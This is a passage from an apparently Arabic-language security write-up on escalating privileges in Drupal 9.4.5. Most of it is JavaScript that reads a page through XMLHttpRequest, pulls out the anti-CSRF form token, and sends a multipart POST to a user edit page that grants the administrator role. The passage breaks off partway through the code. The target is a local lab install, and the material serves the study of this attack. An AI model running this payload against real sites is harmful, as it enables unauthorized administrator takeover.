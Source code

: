 سويت بارسنق عشان أقدر أستخدم

getElementsByName() method

وبكذا صار عندنا قيمة التوكن, كل اللي باقي علينا نكمل ونرسله مع الريكويست اللي يرفع لنا صلاحياتنا لأعلى صلاحية.

<br><br>

> <html><body><b><p style="color:#A52A2A;font-size:25px">Escalating Our Privilage to Administrator Using XMLHttpRequest (XHR)</p></b></body></html>


الخطوة الأخيرة وهي كتابة كامل الإستغلال:

```js
//A function to escalate the privilage to Administrator
function escalation(csrfToken){

    var requestBody = "-----------------------------3849105468677831259759672443\r\n" + 
    "Content-Disposition: form-data; name=\"mail\"\r\n" + 
    "\r\n" + 
    "Mesh3l@Mesh3l.local\r\n" + 
    "-----------------------------3849105468677831259759672443\r\n"+
    "Content-Disposition: form-data; name=\"name\"\r\n" + 
    "\r\n" + 
    "Mesh3l\r\n" + 
    "-----------------------------3849105468677831259759672443\r\n"+
    "Content-Disposition: form-data; name=\"roles[content_editor]\"\r\n" + 
    "\r\n" + 
    "content_editor\r\n" + 
    "-----------------------------3849105468677831259759672443\r\n"+
    "Content-Disposition: form-data; name=\"roles[administrator]\"\r\n" + 
    "\r\n" + 
    "administrator\r\n" + 
    "-----------------------------3849105468677831259759672443\r\n"+
    "Content-Disposition: form-data; name=\"form_token\"\r\n" + 
    "\r\n" + 
    ""+csrfToken+"\r\n" + 
    "-----------------------------3849105468677831259759672443\r\n"+
    "Content-Disposition: form-data; name=\"form_id\"\r\n" + 
    "\r\n" + 
    "user_form\r\n" + 
    "-----------------------------3849105468677831259759672443\r\n"+
    "Content-Disposition: form-data; name=\"op\"\r\n" + 
    "\r\n" + 
    "Save\r\n" + 
    "-----------------------------3849105468677831259759672443--";

    //Initaing the request that will escalate our privilage
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://localhost/drupal-9.4.5/user/2/edit", true);
    xhr.setRequestHeader("Content-Type","multipart/form-data; boundary=---------------------------3849105468677831259759672443");
    xhr.send(requestBody);
}

//Extracting the Anti-CSRF Token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function(){

    if(XHR.readyState == 4){
        var resonse = XHR.responseText;

        //Parsing the response so that we can extract the token using .getElementById
        var document = new DOMParser().parseFromString(resonse, "text/html");
        var csrfToken = document.getElementsByName("form_token")[0].value;
```